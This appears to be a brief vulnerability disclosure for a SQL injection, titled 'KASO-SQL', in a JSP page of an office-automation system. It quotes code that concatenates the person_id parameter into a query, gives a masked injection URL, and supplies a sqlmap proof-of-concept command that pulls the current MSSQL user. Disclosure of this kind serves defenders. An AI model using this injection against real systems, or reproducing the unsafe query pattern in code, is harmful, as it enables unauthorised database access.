 # KASO-SQL


Impact Code

    <%}
    rs.close();
      sql = "select a.classid,a.name,b.popedom from oa_cardclass a,oa_card_popedom b where a.classid=b.classid and b.person_id='"+person_id+"'";  
      rs=DBmenu.executeQuery(sql); 
    %>


Injection：person_id
Injection url: http://xx.xx.xx.xx:8081/cardcase/editcard.jsp?person_id=2&id=1&classid=1


poc:
python sqlmap.py -r ./1.txt  --random-agent --dbms=mssql --current-user

![Uploading image.png…]()

